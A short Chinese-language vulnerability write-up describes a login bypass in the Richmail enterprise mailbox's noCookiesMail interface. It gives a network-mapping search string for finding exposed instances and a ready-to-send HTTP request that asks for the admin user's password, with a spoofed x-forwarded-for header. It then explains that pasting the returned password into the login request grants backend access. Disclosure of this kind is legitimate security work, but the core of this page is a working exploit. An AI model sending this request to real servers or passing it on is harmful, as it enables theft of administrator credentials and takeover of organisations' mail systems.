 # Richmail 企业邮箱 noCookiesMail 登陆绕过漏洞

## 漏洞描述

Richmail 企业邮箱 noCookiesMail 接口存在登陆绕过漏洞，攻击者通过漏洞可以获取管理员账号密码登录后台

## 漏洞影响

<a-checkbox checked>Richmail 企业邮箱</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Richmail 企业邮箱"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1698647772423-398a9b02-899e-4fd0-ba4c-e93427ffcaea-20231108125736212.png)

验证POC

```php
GET /RmWeb/noCookiesMail?func=user:getPassword&userMailName=admin HTTP/1.1 
Host:
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
x-forwarded-for: 127.0.0.1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1698647827407-ee5bc4fd-6790-428a-b56c-9287be10fce7.png)

替换登陆请求中的password字段即可登录